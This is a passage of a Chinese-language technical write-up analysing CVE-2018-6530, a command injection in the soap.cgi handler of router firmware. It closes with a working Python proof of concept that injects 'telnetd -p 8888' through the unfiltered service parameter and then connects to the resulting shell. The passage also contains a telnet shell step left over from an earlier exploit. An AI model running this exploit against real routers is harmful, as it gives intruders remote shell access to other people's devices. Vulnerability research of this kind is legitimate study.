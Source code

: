```
#io = remote("192.168.0.1", 49152)
#io.send(request)
 
sleep(1)
os.system('telnet 192.168.0.1 7777')
```

这里拿 socket 或 pwntools 来打都是 OK 的：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4BVeoo47r8ic1ApY7BaU0zNWs5EMCKExJc0KqAFakbV0RD3XrUBsMoww/640?wx_fmt=png)

或者直接 nc 上 49152 端口手动发送报文：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H47EpS2SH3DfyU9TOn98YicSSK9KQvrWzVZNhrEtfUDGZ5viaL525EXwCw/640?wx_fmt=png)

四  

  

**CVE-2018-6530**

漏洞信息：CVE-2018-6530（_https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6530_）

这个漏洞是在 soap.cgi 中的，还是看到 cgibin 中的 soapcgi_main 函数：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4YWhUZpjVUI66jE784saXXicus4ltw6NdPSlcYebibI4byq0KibyMzFalw/640?wx_fmt=png)

首先需要绕过一些检查，比如 CONTENT_TYPE 得是 text/xml，REQUEST_METHOD 得是 POST，HTTP_SOAPACTION 中得有 #等，可以看到这里对 service 后的内容已经进行了一些过滤，但是 貌似忘记过滤了 & 符号 。

接着往下看：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H48jn0fDflq88KicR16E4sQKra20Kp17D12WAJuaIrgD8XoyxZP3gA1qA/640?wx_fmt=png)

这里的 cgibin_parse_request 已经很熟悉了，就是对 POST 内容的解析，在这里用处不大，就注意设置一下相关环境变量即可。

再下面就来到漏洞点了：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H44U2mdmL4q5ictBjG9VGWEdEUAPfYU11OW3xMjhicsZPeWkjkdqFIgGhA/640?wx_fmt=png)

这个 fopen 的第二个参数是 a+，文件不存在就会创建，所以这个 if 很好判断过，下面的 sprintf + system 很显然存在一个任意命令执行的 RCE 漏洞。

之前说过，& 忘记过滤了，因此我们可以用 && 连接恶意命令并注入到 service 中，由于之前的 sh /var/run / 是个合法路径，因此算执行成功，可以走到 && 之后的恶意命令。

在上一个 CVE 中已经分析过了，soap.cgi 也是通过 49152 端口发送报文给 UPNP 的 。

**POC：**

```
from socket import *
from os import *
from time import *
 
request = b"POST /soap.cgi?service=&&telnetd -p 8888&& HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 88\r\n"
request += b"SOAPAction: a#b\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
sleep(1)
system('telnet 192.168.0.1 8888')
```
